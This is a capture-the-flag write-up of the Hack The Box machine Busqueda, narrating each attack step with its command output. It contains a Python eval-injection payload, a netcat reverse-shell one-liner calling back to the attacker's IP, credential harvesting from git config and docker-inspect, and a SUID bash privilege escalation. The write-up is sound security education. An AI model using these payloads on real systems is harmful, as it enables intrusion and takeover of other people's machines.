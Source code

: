 ```yaml
---
layout: post
title: "HTB: Busqueda"
author: Andrew Cherney
date: 2023-08-12 16:14:08
tags: htb easy-box linux webapp python 
icon: "assets/icons/busqueda.png"
post_description: "Much like RedPanda this box starts with exploiting a search engine. I hope your python is up to the test. Next we look for an exploit using docker inspect to get into a git repo and gain access to private scripts running on the machine, which are then exploited for root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

<h3>nmap</h3>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nmap -sC 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 16:34 CDT
Nmap scan report for 10.10.11.208
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://searcher.htb/
```

```bash
echo '10.10.11.208 searcher.htb' >> /etc/hosts
```

<h3>Port 80 - http</h3>

![front page](/img/busqueda/front_page.png)

![/search](/img/busqueda/search.png)

This page appears to be a universal searcher where you specify a platform and it returns a web address which you can enter as an address to perform your search. The endpoint that you are redirected to is **/search**. Now I've already got a small lead from the footer of the front page. This is run in Flask and using the [Searchor github repo](https://github.com/ArjunSharda/Searchor).

<h2>User as svc</h2>

<h3>Python Code Escape</h3>

If I skim that repo I can find that the basic functionality of this site is to use that repo to search various sites and return the url for that search. The cursory search of vulnerabilities for this repo turn up [this arbitrary code execution on version 2.4.2](https://security.snyk.io/package/pip/searchor/2.4.0). The crux is our old friend improper eval usage as seen below:

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Commonly a way to escape python code through the eval function is to import os and use popen to run commands. Let's see what comes from that.

```
'+__import__("os").popen("id").read()+'
https://www.google.com/maps/search/uid%3D1000%28svc%29%20gid%3D1000%28svc%29%20groups%3D1000%28svc%29%0A
```

It works! Now I replace id with a reverse shell and gain my foothold.

```
'+__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 7777 >/tmp/f").read()+'
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.208] 50910
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
svc@busqueda:~$ cat user.txt
cat user.txt
113ea983d7b15-------------------
```

<h2>Root</h2>

<h3>Git Config</h3>

I run a linpeas and it throws off some interesting information. Firstly the **/home/svc/.local/bin** directory is in the path environment variable. If there is a script or command that runs another command or script from one of the path directories I can intercept that request and run my code as whatever user runs the script/command calling it (ideally root). Other basic things include DirtyPipe, Pwnkit, sudo Baron Samedit 1 and 2, and Netfilter heap out-of-bounds write. 

Before looking into any of those there are two .git directories:

```
drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 May 14 18:08 /var/www/app/.git
```

I have access to the one inside of /var/www/app, so I'll crack open that juicy config file and see what we have. 

```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Oh sweet wompums look at that password **jh1usoih2bkjaspwe92**. Now I can toss out a **sudo -l** to see what our user "cody" can do as root. 

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

<h3>Gitea</h3>

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 8 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 8 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Two things pop out here, one is that here is a mysql database for a locally running webpage, and the other is that there is some other hosted site that we might be able to enumerate. Luckily inside of /etc/hosts on this machine I found **gitea.searcher.htb**. In retrospect the credentials for cody also mentioned this subdomain. 

![gitea page](/img/busqueda/gitea.png)

![gitea login](/img/busqueda/gitea_login.png)

![cody gitea](/img/busqueda/cody_gitea.png)

It seems we have another user for this specific service named administrator. Those credentials are certainly inside of the mysql database listed with our sudo access. Now all we need to do is figure out how to interact with that database. 

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect gitea
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{.Config.Image}}' gitea
--gitea/gitea:latest
```

I found a basic use case [for the command here](https://docs.docker.com/engine/reference/commandline/inspect/), it pretty closely follows the regular docker inspect command. At the bottom of that page is the payload <code>docker inspect --format='{{json .Config}}' $INSTANCE_ID</code> and I intend to see if that works.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{json .Config}}' gitea
--{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Oh hey it did work. And if you squint hard enough you can make out the administrator password is **yuiu1hoiu4i5ho1uh**. 

![admin gitea](/img/busqueda/admin_gitea.png)

![scripts repo](/img/busqueda/scripts_repo.png)

And would you look at that cool scripts directory with identical scripts to the /opt/scripts directory on the machine. Taking a small peek at one of the scripts that didn't work when I tried is I find my ticket to root. 

<h3>Code Exploitation</h3>

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

Checking the full-checkup option of the code I can run as sudo I see that the option only checks for a local file then runs it as root. I can make the file modify /bin/bash to be an suid and then I will obtain root. 

```bash
!#/bin/bash
chmod +s /bin.bash
```

```bash
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c0c2d4933301--------------------
```
